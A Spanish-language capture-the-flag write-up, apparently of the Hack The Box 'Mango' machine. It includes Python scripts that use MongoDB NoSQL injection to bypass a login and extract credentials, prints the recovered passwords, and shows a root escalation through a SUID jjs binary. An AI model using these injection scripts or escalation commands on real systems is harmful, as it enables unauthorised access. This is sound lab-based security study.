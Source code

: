 
---
layout: single
title: Mango - Hack The Box
excerpt: "Javascript e inyeccion NoSQL (Mongo)"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-devzat/devzat1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - binary exploit  
---

# 10.10.10.162 - Mango

![](/assets/images/htb-mango/mango1.png)

----------------------

Puertos abiertos: 22(ssh), 80(http), 443(https)

```console
└─$ openssl s_client -connect 10.10.10.162:443
staging-order.mango.htb, emailAddress = admin@mango.htb
└─$ whatweb http://10.10.10.162
[403 Forbidden] Apache[2.4.29], HTTPServer[Ubuntu Linux]
└─$ whatweb https://10.10.10.162
[200 OK] Apache[2.4.29], Bootstrap, Title[Mango | Search Base]
```
La web solo tiene un enlace funcional a /analytics.php, donde funciona solo al poner la ip (no mango.htb)
Hay una tabla de datos que podemos descargar al darle a "save". Aun así tampoco pude hacer mucho con eso.

![](/assets/images/htb-mango/mango2.PNG)

En el panel de login se manda:
```/POST a http://staging-order.mango.htb/ username=test&password=test&login=login PHPSESSID:"4h9rnhfsteketion8qoom89evt"```
![](/assets/images/htb-mango/mango3.PNG)

Al ser un panel de login podemos hacer cuatro cosas:  
- Inyeccion SQL con payloads del tipo ```' or 1=1-- -``` ```' or sleep(5)-- -``` (...OR por AND y ' por "")  
- Inyeccion Type Jugling (PHP) -> "password=true"  
- Fuzzing de posibles contraseñas  
- NoSQlInyection -> contraseña[$ne]=test "La contraseña no es "test".  

Como estamos ante una web que maneja bases de datos (por lo que vimos en analytics) sera SQL o no SQL. La manera de probar el mirando el content lenght 
(El de la respuesta mala es 4022, es decir redireccion a la misma ruta) Todos los payloads sql fallan pero no NoSQL

```python
#!/usr/bin/python3

import requests
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
data = {"username":"admin","password[$ne]":"test","login":"login"}
req2 = requests.post(url, data=data, headers=headers)
print(len(req2.text))
```

Aun así entrar nos devuelve este mensaje  "Todavía se están plantando (los mangos). Perdon por la inconveniencia, pero acabamos de emepezar la granja"  
Hay inyecciones NoSQL especiales que nos pueden ayudar a obtener información:  

```python
import requests, string

caracteres = string.ascii_lowercase + "_"
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
nombre = ""
for character in caracteres:
    data = {"username[$regex]":"^" + character + ".*","password[$ne]":"test","login":"login"}
    req2 = requests.post(url, data=data, headers=headers)
    if len(req2.text) < 4022:
        print(character)
```
Conseguimos "a" y "m"  

```python3
nombre = "a"
for i in range(20):
    for character in caracteres:
        data = {"username[$regex]":"^" + nombre + character + ".*","password[$ne]":"test","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            nombre += character
            print(nombre)
```
Sale "admin", para el segundo (el que empieza por "m"), pongo ```nombre = "m"```  
No hay mas nombres por la "a", pero si los hubier se pondría ```caracteres = string.ascii_lowercase.strip("d")```  
para sacar la segunda letra (y que no fuera "d").  

```python
caracteres = string.printable
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
contraseña = ""
while True:
    for character in caracteres:
        data = {"username":"admin","password[$regex]":"^" + contraseña + re.escape(character) + ".*","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            contraseña += character
			print(contraseña)
```
Creds -> admin:t9KcS3>!0B#2, mango:h3mXK8RhU~f{]f5H  

Con estas contraseñas podemos acceder por ssh con mango ```ssh mango@10.10.10.162```
- SUIDS: /usr/bin/run-mailcap, /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs  
- PUERTOS: 127.0.0.1:27017   

En [Gtfo-bins](https://gtfobins.github.io/gtfobins) hay entradas para ambos binarios, pero solo jjs tiene SUID.  
El comando es este (ej con "whoami") y se ejecutará en contenxto privilegiado.  
```echo "Java.type('java.lang.Runtime').getRuntime().exec('whoami').waitFor()" | /jss```  
El asunto esque la shell que nos proponen ```/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)```  
se queda atascada, asi que la solución sería el comando de hacer SUID a la bash ```chmod u+s /bin/bash```  
```console
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()" | /jss
admin@mango:/home/mango$ bash -p
bash-4.4# whoami
root
```
Aunque tenemos que leer la flag rapidamente porque no se porque hay ocasiones en que me bajan los privilegios.  

jjs sirve para invocar el motor "Nashorn", pero dicen que tanto el comando como el motor lo eliminarán en futuras versiones de java.
Java tira de motores y entornos virtuales para funcionar, es un lenguaje un tanto extraño.  